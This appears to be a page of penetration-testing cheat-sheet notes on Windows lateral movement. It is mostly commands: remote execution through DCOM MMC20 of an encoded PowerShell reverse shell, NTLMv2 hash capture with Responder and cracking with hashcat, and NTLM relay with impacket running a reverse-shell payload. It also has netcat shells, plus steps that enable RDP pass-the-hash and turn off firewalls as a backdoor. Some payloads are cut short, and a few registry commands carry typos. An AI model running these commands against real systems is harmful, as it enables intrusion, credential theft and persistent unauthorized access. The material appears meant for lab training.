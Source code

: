 ```bash
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.193.72"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

#### Net-NTLMv2

At a high level, we'll send the server a request, outlining the connection details to access the SMB share. Then the server will send us a challenge in which we encrypt data for our response with our NTLM hash to prove our identity. The server will then check our challenge response and either grant or deny access, accordingly.

Cracking:

```bash
kali@kali:~$ sudo responder -I tun0
# Try to list fake share at your Kali IP
C:\Windows\system32>dir \\192.168.119.2\test
# Save the NTLMv2 hash that is produced
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```
Passing:

If UAC remote restrictions are enabled on the target then we can only use the local Administrator user for the relay attack. impacket-ntlmrelayx does the heavy lifting for us by setting up an SMB server and relaying the authentication part of an incoming SMB connection to a target of our choice.

We'll use --no-http-server to disable the HTTP server since we are relaying an SMB connection and -smb2support to add support for SMB2. We'll also use -t to set the target to FILES02. Finally, we'll set our command with -c, which will be executed on the target system as the relayed user. We'll use a PowerShell reverse shell one-liner, which we'll base64-encode and execute with the -enc argument.

```bash
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
kali@kali:~$ nc -nvlp 8080
# Now we'll run Netcat in another terminal to connect to the bind shell on FILES01 (port 5555). After we connect, we'll enter dir \\192.168.119.2\test to create an SMB connection to our Kali machine. Again, the remote folder name is arbitrary.
kali@kali:~$  nc 192.168.50.211 5555 # Simulating command execution
C:\Windows\system32>dir \\192.168.119.2\test # your kali ip
```

#### Create a Backdoor User

You can use this user to RDP into a session and obtain a GUI. This assumes that you are already NT Authority.
```bash
# Enable RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

# Enables RDP Pass the Hash
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force

# Enables RDP Connections
reg add "HTLM\SYSTEM\CurrentControlSet\Control\Terminal Server" \v "fDenyTSConnections" /t REG_DWORD /d 0 /f
...
# Disable the Firewalls
netsh advfirewall set allprofiles state off
...
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname